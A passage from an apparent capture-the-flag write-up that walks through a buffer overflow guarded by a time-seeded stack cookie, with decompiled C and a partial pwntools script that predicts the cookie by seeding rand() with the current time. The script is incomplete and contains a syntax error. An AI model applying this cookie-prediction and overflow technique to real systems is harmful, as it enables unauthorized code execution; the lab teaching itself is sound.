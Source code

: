 Interesting, rather than a segfault, the program was able to notice that we overflowed the buffer and exited accordingly. Let's take a deeper look by examining the source code for `win()`

```c++
void win(void){
	char local_28 [28];
	uint local_c;

	flush();
	local_c = stack_cookie;
	puts(
		"As a reward for beating cookie clicker, I will turn this into an easy buffer overflow challenge. Enter your payload!"
	);
	fgets(local_28,100,stdin);
	if(local_c != stack_cookie){
		printf("%d != %d\n",(ulong)local_c,(ulong)stack_cookie);
		puts("STACK COOKIE MODIFIED, STACK OVERFLOW DETECTED.");
		puts("EXTREME SECURITY MEASURES ACTIVATED, SHUTTING DOWN POWER TO AWS-WEST");

		exit(-1);
	}
	return;
}
```

So what this win function is doing is: It creates a buffer of 28 bytes on the stack, followed by an integer which gets set to `stack_cookie`.  This variable is created using `rand()` seeded with the current time.  The program then reads 100 bytes into the 28 bytes buffer (which allows us to write past the buffer), but then it checks to see if the stack_cookie was modified. If it was, then the program exits.

We need to somehow know the stack_cookie in order to overwrite EIP. Since we know that `rand()` was seeded with the current time, we can actually predict what the cookie is going to be by using the same rand function and seeding it with the current time in our exploit script.  Let's set that up, while also automating the underflow portion of the challenge.

```python
from pwn import *
from ctypes import CDLL

io = remote('ctf.ropcity.com', 31310)
#io = process('./cookie')

t = int(time.time())
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

libc.srand(t) #seed with current time

canary = libc.rand()

for i in range((50000/1000)+1):
    io.sendline('3')

io.recvuntil('payload!)

io.interactive()
```
